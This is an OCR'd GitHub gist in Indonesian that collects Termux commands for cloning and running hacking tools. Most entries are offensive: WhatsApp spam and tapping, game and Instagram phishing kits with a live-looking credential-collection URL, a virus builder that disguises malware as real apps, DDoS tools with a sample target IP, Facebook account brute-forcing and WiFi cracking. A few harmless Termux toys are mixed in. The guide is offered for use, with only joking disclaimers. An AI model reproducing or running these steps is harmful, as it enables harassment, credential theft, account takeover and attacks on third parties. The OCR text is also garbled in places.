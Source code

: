 Skip to content ryan/kumpulan kode di termux Created 3 • Report abuse Code Revisions 1 Stars 105 Forks 8 kumpulan kode di termux KUMPULAN CODE TERMUX LENGKAP | SPAM CHAT WHATSAPP || nggk usah nyepam gw - * atau hp lu gw ledakin!!#@vms $ pkg update && pkg upgrade Setelah mengupdate dan mengupgrade termux ketikan perintah berikut : $ pkg install python2 (y/n pilih y) $ pkg install php (y/n pilih y) $ pkg install git (y/n pilih y) Setalah mengikuti perintah di atas waktu-nya kita clonning tool-nya : $ git clone https://github.com/siputra12/prank.gitSetelah proses cloning selesai kita move on dari perintah di atas dan ketikan perintah ini : $ cd prank $ ls $ php wa.php Kemudian masukan Nomor WhatsApp yang kalian ingin spam contoh : 085710917169 kemudian enter pada pilihan y/n pilih y.. .welcome back to me catatan:).... #@vms " jngan lupa subcribe pak VEMAS DARK - -... (:" "phising game" (mobile legends dan clash of clan) $apt update $apt upgrade -y $pkg install python2 -y $pkg install apache2 $pkg install php -y $pkg install git $git clone https://github.com/Senitopeng/PhisingGame $ls $cd PhisingGame $python2 phising.py Gunain dengan bijak cuk -- Cara Instal OSIF (Informasi Sumber Terbuka Facebook) $ pkg instal python2 $ git clone https://github.com/ciku370/OSIF$ cd OSIF $ pip2 install -r requirements.txt Dan cara menjalankannya menggunakan perintah : python2 osif.py by: Vdk CARA SADAP WA SeNaNg-SeNaNg H4CK1NG MR.STAH $pkg perbarui && peningkatan pkg $pkg instal git $pkg instal curl $git clone https://github.com/AndriGanz/whatshack $cd whatshack $ls $sh whatshack.shJangan salah gunakanTutorial termux Silahkan perdalami... D-tect tool Cara Install D-tect tool di android termux (command ) : $ apt install git $ apt install python2 $ git clone https://github.com/shawarkhanethicalhacker/D-TECT $ ls $ cd D-TECH $ chmod +x d-tect.py $ python2 d-tect.py 2. cara uninstall tool termux rm -rf toolsnya 3. cara buat virus cd /sdcard cd vbug ls chmod vbug.py chmod -v vbug .py python2 vbug.py 4. irssi /connet irc.freenode.net /nick w3wandroid /join #modol _________ DDOS via Termux ———————————— 1. Hammer $ pembaruan pkg (tekan enter) $ peningkatan pkg (tekan enter) $ pkg instal python (tekan enter) $ pkg instal git (tekan enter) $ git clone https://github.com/cyweb/hammer(tekan enter) $ cd hammer (tekan enter) $ python hammer.py (tekan enter) $ python hammer.py -s [IP target] -p [port] -t 135 (tekan enter) 104.27.146.125 2. Xerxes $ apt install git $ apt install clang $ git clone https://github.com/zanyarjamal/xerxes $ ls $ cd xerxes $ ls $ clang xerxes.c -o xerxes $ ls $ ./xerxes (nama website) 80 3. Torshammer $ pembaruan pkg $ pkg instal git $ apt instal tor $ pkg instal python2 $ git clone https://github.com/dotfighter/torshammer.git $ ls $ cd torshammer $ python2 torshammer.py 4. liteDDOS $ pembaruan apt $ peningkatan apt $ pkg instal git $ pkg instal python2 $ git clone https://github.com/4L13199/LITEDDOS$ cd LITEDDOS $ python2 liteDDOS.py ______________ Bermain moon-buggy $ pkg install moon-buggy $ moon-buggy ______________ Musikan di termux $ pkg install mpv $ mpv/sdcard/lagu.mp3 /sdcard/ bisa di ganti sesuai letak musik ______________ Browsing di termux $ pkg install w3m $ w3m www.google.comLinknya bsa diubah ______________ Telephone di termux $ pkg install termux-api $ termux-telephony-call nomornya _____________ Menampilkan animasi kereta $ pkg install sl $ sl _____________ menampilkan ikon dan informasi sistem android $ pkg install neofetch $ neofetch _____________ menampilkan teks dalam format ASCII $ pkg install figlet $ figlet masukin teksnya _____________ Cara Mendengarkan Yotuube di termux $ pip install mps_youtube $ pip install youtube_dl $ apt install mpv $ mpsyt $ /judul lagu Tinggal pilih lagu dgn mengetik nomornya. Tutorial membuat virus seperti aplikasi aslinya Tools yang dibutuhkan : APK Editor & tool vbug APK Editor bisa didownload di playstore Tool vbug Berikut 1.https://github.com/Senitopeng/BotFbBangDjon.git cd BotFbBangDjon python2 bangdjon.py melihat id fb https://findmyfbid.in/ Autoreaction Facebook git clone https://github.com/tomiashari/fb-autoreaction.git cd fb-autoreaction python2 fb-autoreaction •TOOLS²TERMUX.P3 21.TOOLS SQLMAP apt update apt install python apt install python2 apt install git git clone https://github.com/sqlmapproject/sqlmap cd sqlmap python2 sqlmap.py ===== ======================== 22.TUTORIAL PHISING INSTAGRAM VIA TERMUX pkg update pkg upgrade pkg install python2 pkg install git clear git clone https://github. com/evait-secutiry/weeman.git cd ls cd weeman python2 weeman.py show set url http://dewopanel.host22.com/masuk.phpatur port 8080 atur action_url http://dewopanel.host22.com/masuk.php jalankan ============================= 23. TUTORIAL MENAMBAH FOLLOWERS&LIKE INSTAGRAM Kegunaan untuk menambah follower dan like ig pkg update pkg upgrade pkg install python2 pkg install ruby ​​gem install lolcat pkg install git git clone https://github.com/Hanzelnutt/instabot cd instabot ls pip2 install -r requirements.txt bash instabot ============================= 24.TUTOR HACK WIFI KHUSUS ROOT apt update apt upgrade apt install git git clone https:/ /github.com/esc0rtd3w/wifi-hacker ls cd wifi-hacker ls chmod +x wifi-hacker.sh ls ./wifi-hacker.sh ================== =========== 25.TOOLS xNOT_FOUND VER1apt update && apt upgrade pkg install git pkg install gem pkg install figlet gem install lolcat git clone https://github.com/hatakecnk/xNot_Found cd xNot_Found sh xNot_Found.sh ============== =============== 26.HACK FB Nih ada tutor buat lewat TERMUX buat hack FB apt update && apt upgrade apt install python apt install python2 apt install ruby ​​apt install git apt install wget apt install curl pip2 install mechanize pip2 install request git clone https://github.com/hnov7/mbf tunggu hingga selesai,jika sudah selesai silahkan buka tab baru atau new session lalu ketik : cd mbf python2 mbf.py =======